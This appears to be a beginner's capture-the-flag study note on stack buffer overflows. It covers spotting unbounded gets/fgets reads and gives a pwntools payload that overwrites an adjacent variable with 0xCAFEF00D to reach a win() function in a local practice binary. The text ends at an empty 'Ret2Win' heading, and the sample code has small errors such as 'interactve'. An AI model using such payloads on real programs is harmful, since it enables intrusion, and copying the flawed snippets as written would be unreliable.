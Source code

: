 # Stack Overflow
## Identification
We can know there is buffer or stack overflow vulnerabilities when a input function without limit or the limit is exceed the buffer capacity. 
Example:
```
char buff[50]
gets(buff)     // gets function will take input without limit until reach null terminator
```

or with limit with `fgets()`
```
char buff[50]
fgets(buff, 100, stdin) // fgets take input 100 char but the buffer capacity only 50 char
```

## Exploitation and Vulnerabilities
### Variables Overwrites (idk the real name)
This one the most simple one. If you can see there is two variables next each other and one of them is the buffer and the other will compared later. 
The example of the source code are like this
```
int cmp
char buff[20]
gets(buff)
if(cmp == 0xCAFEF00D)
{
    win()
}
```
You can see on that code. We need to change the cmp value to `0xCAFEF00D` so that we can call win function. We can send it using python code with `pwntools` module or we can inject it with pipe directly.
We know the buffer capacity is 20, then we need fill the buffer first then input desired value for the `cmp`.
so the payload will go like this
    `b'AAAAAAAAAAAAAAAAAAAA\x0D\xF0\xFE\xCA'`
the reason for the payload is reversed because the memory stores value with little-endian encoding and the reason for we store it `\x0D` because we input it as char but there is no readable char representation for it so we use byte string to input char based on its hex value.
Payload
```
p = process('./var')

payload = b'A' * 20   # Padding
payload += b'\x0D\xF0\xFE\xCA' # Desired value
# OR We can use
payload += p64(0xCAFEF00D) # or p32 for x86 architecture

p.sendline(payload)
p.interactve()
```
`p64` or `p32` function is used for convert integer to 8 bytes or 4 bytes little-endian encoding or pack the integer based on system architecture

### Ret2Win

